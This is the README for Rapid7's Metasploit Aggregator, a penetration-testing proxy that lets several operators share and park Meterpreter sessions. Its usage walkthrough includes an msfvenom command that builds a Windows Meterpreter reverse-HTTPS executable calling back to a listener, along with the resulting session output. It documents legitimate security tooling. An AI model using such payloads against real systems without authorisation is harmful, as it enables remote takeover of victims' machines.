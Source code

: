 Metasploit [![Build Status](https://travis-ci.org/rapid7/metasploit-aggregator.svg?branch=master)](https://travis-ci.org/rapid7/metasploit-aggregator) [![Code Climate](https://img.shields.io/codeclimate/github/rapid7/metasploit-aggregator.svg)](https://codeclimate.com/github/rapid7/metasploit-aggregator)
==
The Metasploit Aggregator is released under a BSD-style license. [See
LICENSE](https://github.com/rapid7/metasploit-aggregator/blob/master/LICENSE) for more details.

Bug tracking and development information can be found at:
 https://github.com/rapid7/metasploit-aggregator

New bugs and feature requests should be directed to:
  https://github.com/rapid7/metasploit-aggregator/issues/new

Questions and suggestions can be sent to:
  https://groups.google.com/forum/#!forum/metasploit-hackers

## Metasploit Aggregator

The Metasploit Aggregator is a proxy for Meterpreter sessions. Normally, Meterpreter sessions connect directly to a Metasploit listener. However, this has a few problems:

 1. Multiple users cannot easily share the session once it is established, without some sort of external multiplexing scheme, such as running msfconsole in a screen session. While Metasploit Pro solves this issue to a certain extent, it is also limited by the number of users that can simultaneously  interact with shared sessions.

 1. Running a full msfconsole on a remote listener is resource intensive because it uses multiple threads per connection. It has a hard time scaling reliably to thousands of sessions, and even fewer on Windows platforms.

 1. The design requires either running different copies of msfconsole, or putting all of your eggs in one basket. It is difficult to distribute sessions across many endpoints and have a global view of them all.

The Metasploit Aggregator solves these problems by implementing an event-driven listener that stands between msfconsole and Meterpreter. It can scale to thousands of connections, but only needs to make a single connection with Metasploit Framework to manage them all.  Sessions can be shared between multiple users without any changes to the Meterpreter session
Itself, such as by modifying the session transport configuration. The redirection of a session occurs behind the scenes on the control channel between Metasploit Aggregator and msfconsole.

## Glossary

Metasploit Aggregator introduces a few new concepts.

* A **‘parked’** session is one that is terminated entirely by Metasploit Aggregator. This means that the minimal interaction with the session to simply keep it alive is handled by the aggregator automatically. A user can attach to a session at any time in order to interact with it.

* A **‘cable’** is a listening port that the aggregator opens to accept new connections from Meterpreter. This is analogous to starting a handler on msfconsole.

* The **‘default forward’** address is the location of a msfconsole instance that serves as a helper for Metasploit Aggregator. Metasploit Aggregator currently does not know how to handle staged sessions, request session details, or how to deal with AutoRun scripts. The default forward is where a session connecting to a cable is redirected on initial connection. The connection is enumerated for details of the target and continues to communicates with the default forward until requested specifically by another console or parked by request of the default forward.

* A **‘forwarded’** session is one that terminates at the aggregator, but is then proxied to a msfconsole instance. The session is forwarded over a control channel connection to the aggregator. When you are done interacting with a session, it can be moved back to a ‘parked’ state for other users to use. Note: any user can steal a session if desired and forward it to a different msfconsole instance.

## Installing
Standalone installation: ```gem install metasploit-aggregator```.

## Usage

To use Metasploit Aggregator, first start an instance of the aggregator itself. This is automatically packaged with Metasploit Framework, or can be installed standalone by running `gem install metasploit-aggregator`. The aggregator binary is called `metasploit-aggregator`, and listens on address 127.0.0.1, port 2447. Because the aggregator does not provide encryption or authentication by itself, to connect to a remote instance, we suggest using SSH port forwarding or some other tunneling technology to reach a remote aggregator.

On the system hosting the aggregator:
```
metasploit-framework$ metasploit-aggregator 
2017-03-06 13:17:32 -0600 Starting administration service on 127.0.0.1:2447
```

On the client system:
```
ssh user@aggregator -L 127.0.0.1:2447:127.0.0.1:2447
```

Next, start a msfconsole instance and load the aggregator plugin. This will allow you to interact with the remote aggregator. This is also required to setup the default forward msfconsole instance. Setup the msfconsole instance to be the default forward. This instance will see all connections when they first arrive.

```none
metasploit-framework$ ./msfconsole 
                                                  
  +-------------------------------------------------------+
  |  METASPLOIT by Rapid7                                 |
  +---------------------------+---------------------------+
  |      __________________   |                           |
  |  ==c(______(o(______(_()  | |""""""""""""|======[***  |
  |             )=\           | |  EXPLOIT   \            |
  |            // \\          | |_____________\_______    |
  |           //   \\         | |==[msf >]============\   |
  |          //     \\        | |______________________\  |
  |         // RECON \\       | \(@)(@)(@)(@)(@)(@)(@)/   |
  |        //         \\      |  *********************    |
  +---------------------------+---------------------------+
  |      o O o                |        \'\/\/\/'/         |
  |              o O          |         )======(          |
  |                 o         |       .'  LOOT  '.        |
  | |^^^^^^^^^^^^^^|l___      |      /    _||__   \       |
  | |    PAYLOAD     |""\___, |     /    (_||_     \      |
  | |________________|__|)__| |    |     __||_)     |     |
  | |(@)(@)"""**|(@)(@)**|(@) |    "       ||       "     |
  |  = = = = = = = = = = = =  |     '--------------'      |
  +---------------------------+---------------------------+


       =[ metasploit v4.14.1-dev-5383900                  ]
+ -- --=[ 1627 exploits - 928 auxiliary - 282 post        ]
+ -- --=[ 472 payloads - 39 encoders - 9 nops             ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

msf > load aggregator 
[*] Aggregator interaction has been enabled
[*] Successfully loaded plugin: aggregator
msf > aggregator_connect 127.0.0.1:2447
[*] Connecting to Aggregator instance at 127.0.0.1:2447...
msf > 
```

Startup a new cable to begin listening for Meterpreter sessions from the aggregator. You can optionally specify an SSL certificate for it to serve over HTTPS as well. You can verify that the cable is listening with the `aggregator_cables` command. This will also start a new handler automatically on the default forward instance of msfconsole to handle new sessions as they arrive.

```
msf > aggregator_cable_add 192.168.1.10:8443
msf > aggregator_default_forward 
msf >
```

Now, point a Meterpreter session at the cable address and port. You should see a new session on the default forward console. You can now park this session with the aggregator_session_park command.

```
C:\metasploit-framework> msfvenom -p windows/meterpreter_reverse_https LHOST=192.168.1.10 LPORT=8443 -f exe -o launch-stageless.exe
C:\metasploit-framework> launch-stageless.exe
```

Resulting session created:

```
msf > [*] Meterpreter session 1 opened (127.0.0.1:53414 -> 127.0.0.1:53519) at 2017-03-06 13:46:23 -0600
```

To view all available sessions, use the aggregator_sessions command:

```
msf > aggregator_sessions
[*] Sessions found:
[*] 	 Remote ID: 1
[*] 	      Type: meterpreter windows
[*] 	      Info: DESKTOP-KAO0P3O\user @ DESKTOP-NAME
[*] 	    Tunnel: 192.168.1.10:8443 -> 192.168.1.11:53528
[*] 	       Via: exploit/multi/handler
[*] 	      UUID: 8121940d2f5c4b1f/x86=1/windows=0/2016-12-15T22:03:16Z
[*] 	 MachineID: 1e2b16f37eab2324b9089cd93f16533b
[*] 	   CheckIn: 3s ago
[*] 	Registered: Not Yet Implemented
[*] 	   Forward: 50ab485d-dbe3-4045-95c4-c9abd45c1683
[*] 	Session ID: 1
[*] 
```

To forward an available session to your console, use the aggregator_session_forward command:

```
msf > aggregator_sessions
[*] Sessions found:
[*] 	 Remote ID: 1
[*] 	      Type: meterpreter windows
[*] 	      Info: DESKTOP-KAO0P3O\user @ DESKTOP-NAME
[*] 	    Tunnel: 192.168.1.10:8443 -> 192.168.1.11:53528
[*] 	       Via: exploit/multi/handler
[*] 	      UUID: 8121940d2f5c4b1f/x86=1/windows=0/2016-12-15T22:03:16Z
[*] 	 MachineID: 1e2b16f37eab2324b9089cd93f16533b
[*] 	   CheckIn: 6s ago
[*] 	Registered: Not Yet Implemented
[*] 	   Forward: parked
[*] 
msf > aggregator_session_forward 1
msf > [*] Meterpreter session 2 opened (127.0.0.1:53414 -> 127.0.0.1:54066) at 2017-03-06 13:50:51 -0600
```

Finally, to disconnect from the aggregator, use the aggregator_disconnect command:

```
msf > aggregator_disconnect 
[*] 127.0.0.1 - Meterpreter session 2 closed.
msf > 
```

During disconnect, the console will park any sessions explicitly requested by the user.  If the console is registered as the “default forward” any sessions that have not been specifically requested will park, however the next console that registers as the default forward will be passed these passively parked sessions.

## Contributing
[Contributing](https://github.com/rapid7/metasploit-aggregator/blob/master/CONTRIBUTING.md).

Expanding protobuf service use
```grpc_tools_ruby_protoc -I ../protos --ruby_out=lib --grpc_out=lib ../protos/metasploit/aggregator/*```

